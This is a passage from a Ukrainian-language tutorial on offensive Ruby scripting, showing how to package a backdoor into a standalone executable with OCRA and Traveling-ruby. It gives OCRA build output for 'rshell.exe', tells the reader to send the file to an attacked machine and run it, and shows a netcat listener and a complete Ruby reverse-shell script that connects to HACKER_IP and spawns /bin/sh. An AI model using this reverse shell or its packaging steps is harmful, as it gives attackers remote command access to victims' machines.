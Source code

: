 ```
=== Detected gem io-console-0.4.3 (loaded, files)
=== WARNING: Gem io-console-0.4.3 root folder was not found, skipping
=== Including 53 encoding support files (3424768 bytes, use --no-enc to exclude)
=== Building rshell.exe
=== Adding user-supplied source files
=== Adding ruby executable ruby.exe
=== Adding detected DLL C:/Ruby22/bin/zlib1.dll
=== Adding detected DLL C:/Ruby22/bin/LIBEAY32.dll
=== Adding detected DLL C:/Ruby22/bin/SSLEAY32.dll
=== Adding detected DLL C:/Ruby22/bin/libffi-6.dll
=== Adding library files
=== Compressing 10622666 bytes
=== Finished building rshell.exe (2756229 bytes)
```

В тій самій теці, звідки ви запустили команди має з'явитися новий `rshell.exe` файл. Відправте його на атаковану машину, яка не має встановленого Рубі та запустіть.

```
rshell.exe 192.168.0.14 9911 
```
якщо все ок, то з нашої атакованої машини матимемо відкритий порт 9911 на якому буде працювати наш бекдор.
```
nc -lvp 9911
```
![](packaging__ocra1.png)



### Мандруючий Рубі(Traveling-ruby)
З офіційного сайту[^1] "*Мандруючий рубі - проект який постачає запаковані, портативні рубі програми, які можуть бути запущеними на всіх Лінукс та MAc OS X системах. Також існує підтримка систем Windows(з деякими обмеженнями). Це надає розробникам Рубі програм поставляти ці програми з їх Рубі кодом як один цілісний файл-пакет, без необхідності користувачам встановлювати рубі та геми.*"

Увага: Наступні інструкції взято з їх офіційного сайту.

#### Підготовка  
```
mkdir rshell
cd rshell
```
- Напишіть програму -в нашому випадку бекдор- із теки "rshell"

**rshell.rb**
```ruby
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
require 'socket'
if ARGV.size < 2
  puts "ruby #{__FILE__}.rb [HACKER_IP  HACKER_PORT]\n\n"
  exit 0 
end
ip, port = ARGV
s = TCPSocket.open(ip,port).to_i
exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",s,s,s)
```


[^1]: Traveling-ruby: [Офіційний сайт](http://phusion.github.io/traveling-ruby/)
[^2]: mruby CLI: [Офіційний сайт](https://github.com/hone/mruby-cli)
[^3]: RubyEncoder: [Офіційний сайт](http://rubyencoder.com)